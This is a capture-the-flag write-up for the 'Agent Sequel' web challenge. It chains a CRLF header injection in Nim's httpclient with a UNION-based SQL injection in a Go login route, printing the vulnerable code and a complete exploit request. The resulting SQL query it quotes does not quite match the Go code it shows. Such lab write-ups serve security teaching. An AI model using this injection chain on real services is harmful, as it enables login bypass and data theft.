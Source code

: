 ![img](../../assets/banner.png)

<img src="../../assets/cyberhax.png" style="margin-left: 20px; zoom: 80%;" align=left />
<font size="10">Agent Sequel</font>

9<sup>th</sup> February 2024

​Prepared By: Lean & FROST8ytes (modified)

​Challenge Author(s): Lean & FROST8ytes (modified)

​Difficulty: <font color=green>~~Easy~~ Extreme</font>

Flag: `Cyberhax{CRLF_3s_qu3_3l_1nj3ct10n}`

Step 1

## Synopsis

- The challenge involves a user login web application written in Golang and Nim.

## Description

Welcome, Special *Agent*!

The key for your mission is hidden somewhere in the portal. Please _log in_ to verify your identity. If you forget your credentials, find your way to *bypass* it ;)

We wish you good luck on your mission.

Flag example: `Cyberhax{3x4mp13_f14g_h3r3}`

Disclaimer: No bruteforce is needed.


## Skills Required

- Basic understanding of Golang
- Basic understanding of Nim
- Basic understanding of the HTTP protocol
- Basic understanding of SQL
- Experience in searching for known vulnurabilities

## Skills Learned

- CRLF injection
- SQL injection login bypass

## Application Overview

![img](./assets/overview.png)

### Nim's httpclient CRLF Injection Vulnerability

The `main.nim` file contains a piece of code in the `routes` section that checks for SQL injection:

```nim
proc containsSqlInjection(input: string): bool =
  for c in input:
    let ordC = ord(c)
    if not ((ordC >= ord('a') and ordC <= ord('z')) or
            (ordC >= ord('A') and ordC <= ord('Z')) or
            (ordC >= ord('0') and ordC <= ord('9'))):
      return true
  return false
```

The `containsSqlInjection` procedure checks for suspicious characters that could indicate an SQL injection attack. However, it can be bypassed.

The vulnerability lies in the fact that the code uses `decodeUrl` to decode the user agent header, but it does not properly validate or sanitize the decoded value. This allows an attacker to inject CRLF (Carriage Return Line Feed) characters into the user agent header and bypass the SQL injection check.

```nim

routes:
  post "/user":
    let username = @"username"
    let password = @"password"

    if containsSqlInjection(username) or containsSqlInjection(password):
      resp msgjson("Malicious input detected")

    let userAgent = decodeUrl(request.headers["user-agent"])

    let jsonData = %*{
      "username": username,
      "password": password
    }

    let jsonStr = $jsonData

    let client = newHttpClient(userAgent)
    client.headers = newHttpHeaders({"Content-Type": "application/json"})

    let response = client.request(userApi & "/login", httpMethod = HttpPost, body = jsonStr)

    if response.code != Http200:
      resp msgjson(response.body.strip())
       
    resp msgjson(readFile("/flag.txt"))
```

Nims standard http library suffers from CRLF injection as of version <=1.2.6 [https://consensys.io/diligence/vulnerabilities/nim-httpclient-header-crlf-injection/](https://consensys.io/diligence/vulnerabilities/nim-httpclient-header-crlf-injection/)

We can verify that the challenge is vulnerable by looking at the `Dockerfile`, at line 22 `nim 1.2.4` is installed.

```
RUN choosenim update 1.2.4
```

To exploit this vulnerability, we can modify the user agent header in the HTTP POST request to include a CRLF sequence followed by a payload that will bypass the SQL injection check.

### SQL Injection

The `main.go` file implements a Golang server that handles the `/login` route. It also checks the user agent to ensure it matches one of the allowed user agents.

However, there is a vulnerability in the way the SQL query is constructed. The code concatenates the user input directly into the SQL query string, which allows an attacker to perform an SQL injection attack. This vulnerability can be found in the following lines of code:

```go
row := db.QueryRow("SELECT * FROM users WHERE username='" + user.Username + "';")
```

To exploit this vulnerability, we can use the Nim CRLF injection vulnerability to bypass the user agent check and inject a payload that contains an SQL injection attack.

By performing these two steps, we can exploit the vulnerabilities in both Nim and Golang to retrieve the flag.

```nim
let payload = """{"username":"' UNION SELECT 1, 'test', '$2a$10$iN4TZptSPm634thWzJmklOEarWGSu6JbWTfNbWntYMqgoRsMsjLjq","password":"test"}"""
```

By injecting this payload into the user agent header, the SQL injection check will be bypassed and the code will execute the following query:

```sql
SELECT * FROM users WHERE username='' UNION SELECT 1, 'test', '$2a$10$iN4TZptSPm634thWzJmklOEarWGSu6JbWTfNbWntYMqgoRsMsjLjq' AND password='test';
```

This query will return a fake user with arbitraty an password hash that matches the one we provide in the request.

Also a dummy username and password are added with the exact character length of the CRLF payload in order to exactly match the Content-Length of the request thus overwriting the original one with the injected content.

```
POST http://<challenge URL>/user
User-Agent: ChromeBot/9.5%0D%0A%0D%0A{"username":"' UNION SELECT 1, 'test', '$2a$10$iN4TZptSPm634thWzJmklOEarWGSu6JbWTfNbWntYMqgoRsMsjLjq","password":"test"}
Accept-Encoding: gzip, deflate, br, zstd
Accept: */*
Connection: keep-alive
Content-Length: 110
Content-Type: application/x-www-form-urlencoded

username=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&password=aaaa
```
